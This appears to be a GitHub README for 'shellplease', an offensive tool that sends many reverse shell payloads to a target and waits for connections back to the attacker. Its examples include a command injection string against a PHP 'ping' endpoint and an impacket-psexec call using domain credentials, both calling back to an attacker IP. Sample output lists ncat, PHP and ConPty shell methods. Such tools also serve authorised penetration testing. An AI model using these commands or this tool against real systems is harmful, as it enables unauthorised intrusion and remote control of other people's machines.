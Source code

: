 # Shell? Please?
This tool checks multiple reverse shell payloads usability.
It opens a local tcp port on the attacking machine, similar to `nc -nlvp`,
then sends predefined payloads with a user supplied carrier
and waits for reverse connections.

## Carrier
The user can supply either a script or a command to carry the payload.

### Command Carrier
```sh
# command carrier should use a PAYLOAD env variable as payload
# note: something is not a real command, fool
shellplease.py --command-carrier "something \$PAYLOAD"
shellplease.py -c "something \$PAYLOAD"
```

### Script Carrier
```sh
shellplease.py -s carrier.sh
```
```sh
#!/bin/sh
# carrier.sh

# script carrier should use a positional argument as payload
something $0
```

## Examples
### OS Command Inject via HTTP
Imagine a webpage that executes a shell command with an argument provided by the user
```php
system("ping " . $_GET['ip'])
```

We can use shellplease to see what executables/commands can be used to obtain a reverse shell
```sh
# attacker: 192.168.1.100
# target: 192.168.1.5
shellplease.py -H 192.168.1.100 -c "curl \"http://192.168.1.5/?ip=x; \$PAYLOAD\""
```

Alternatively, we can use a script to carry the payload
```sh
#!/bin/sh
# carrier.sh
curl "http://192.168.1.5/?ip=x; $0"
```

### Command Execution vis PSExec
Now, imagine you have credentials to some user account in a windows/ad environment.
You could use the following:
```sh
# attacker: 192.168.1.100
# target: 192.168.1.5
shellplease.py --os windows --local-host 192.168.1.100 -c "impacket-psexec DOMAIN/USER:PASS@192.168.1.5 \"\$PAYLOAD\""
```

Sample output:
```
[+] started http server on 192.168.1.100:55067
[+] started tcp listener on 192.168.1.100:34921
[-] ncat.exe -e w/ download over cmd.exe
[-] ncat.exe -e w/ download over powershell.exe
[-] PHP exec
[-] PHP system
[-] PHP `
[-] PHP popen
[-] PHP proc_open
[+] Windows ConPty
```

## Usage
```
usage: shellplease.py [-h] [-H HOST] [-s CARRIER_SCRIPT] [-c CARRIER_COMMAND] [-C CONFIG] [-os {linux,windows,mac}]
                      [-sh REMOTE_SHELL] [-p PORT] [-P HTTP_SERVER_PORT] [-a] [-ct CONNECTION_TIMEOUT] [-et ECHO_TIMEOUT]
                      [-po]

Shell? Please?

optional arguments:
  -h, --help            show this help message and exit
  -H HOST, --host HOST, --local-host HOST
                        local host (default: )
  -s CARRIER_SCRIPT, --carrier-script CARRIER_SCRIPT
                        shell script that sends the payload to the target, it should use a positional parameter as payload
                        (default: )
  -c CARRIER_COMMAND, --carrier-command CARRIER_COMMAND
                        shell command that sends the payload to the target, it should use a PAYLOAD env variable as payload
                        (default: )
  -C CONFIG, --config CONFIG
                        .json configuration file location (default: config.json)
  -os {linux,windows,mac}, --os {linux,windows,mac}
                        target operating system (default: linux)
  -sh REMOTE_SHELL, --remote-shell REMOTE_SHELL
                        shell to be executed (default: )
  -p PORT, --port PORT, --local-port PORT
                        local port (default: 0)
  -P HTTP_SERVER_PORT, -hp HTTP_SERVER_PORT, --http-server-port HTTP_SERVER_PORT
                        http port to serve assets (default: 0)
  -a, --all             check all payloads (default: False)
  -ct CONNECTION_TIMEOUT, --connection-timeout CONNECTION_TIMEOUT
                        connection accept timeout in seconds (default: 1)
  -et ECHO_TIMEOUT, --echo-timeout ECHO_TIMEOUT
                        echo check timeout in seconds (default: 3)
  -po, --print-only     print paylods only, don't check. (default: False)
```

